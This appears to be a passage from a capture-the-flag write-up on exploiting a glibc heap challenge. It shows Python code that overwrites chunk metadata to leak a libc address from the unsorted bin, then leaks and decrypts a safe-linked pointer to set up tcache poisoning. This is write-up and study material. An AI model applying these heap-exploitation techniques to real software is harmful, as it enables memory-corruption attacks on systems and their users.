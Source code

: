 by freeing our unsorted bin, a pointer to libc is placed in the heap.
to grab it, just use the same overwrite technique as above, write just to the pointer and the grab it/parse it

```python
delete_rune(r, 'u')

#overwrite up to the pointer to grab it
edit_rune(r, '\x3f\x00', '\x3e\x00', "A"*0x13+"CHEF") # use the s allocation to overwrite the metadata
libc_leak = parse_leak(r, '\x3e\x00')

#fix the metadata for the unsorted bin, this is where the 0x18 size item comes in handy
edit_rune(r, '\x3e\x00', '\x3a\x00', "A"*0x10+p64(0x431))
```

### parse leak
```python
def parse_leak(r, name):
    sla(r, 'Action:', 4)
    sla(r, ':', name)
    ru(r, "CHEF\n")
    leak = u64(re(r,6)+'\x00\x00')
    return leak
```

# Poisoning tcache

this is very similar to what I did above, for more information I'd recommend checking out how to heap's [github page](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c)!

free 2 rune's of the same size, and leave one above them alloced
use the same techinque as above to leak the ciphered pointer

### leak the ciphered pointer
```python
    create_rune(r, p64(33)[:-1], 0x30, 0)
    create_rune(r, p64(34)[:-1], 0x30, 0)
    create_rune(r, p64(35)[:-1], 0x30, 0)

#... other code between these

    delete_rune(r, p64(35)[:-1])
    delete_rune(r, p64(34)[:-1])

    #same deal to overwrite the meta data
    edit_rune(r, p64(33)[:-1], '\x3d\x00', "A"*0x33+"CHEF")

    #grab a ciphered ptr
    weird_ptr = parse_leak(r, '\x3d\x00')

	plain_ptr, key = decrypt_ptr(weird_ptr)
```
